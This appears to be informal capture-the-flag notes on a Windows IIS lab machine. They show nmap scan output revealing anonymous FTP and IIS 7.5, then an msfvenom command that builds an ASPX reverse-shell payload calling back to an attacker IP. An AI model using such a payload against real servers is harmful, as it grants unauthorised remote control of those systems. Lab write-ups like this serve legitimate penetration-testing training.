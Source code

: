 ```
C:\home\kali> nmap -sC -sV -Pn 10.10.10.5 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-16 03:41 EST
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 3.50% done; ETC: 03:45 (0:03:41 remaining)
Nmap scan report for 10.10.10.5
Host is up.
All 1000 scanned ports on 10.10.10.5 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.00 seconds

```

after a reset

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-16 04:06 EST
Nmap scan report for 10.10.10.5
Host is up (0.21s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

it has ftp on and th eiis servr so it should work similarly ot the other machines we have

![](2023-02-16-04-38-07.png)

was able to get a normal shell thorugh uploading meterpreter

`msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=4444 -f aspx -o vv.aspx `

with msfconsole however this was not giving me a good enough answer

privilege escalate using exploitation but the server isnt stable



![](2023-02-16-05-10-55.png)


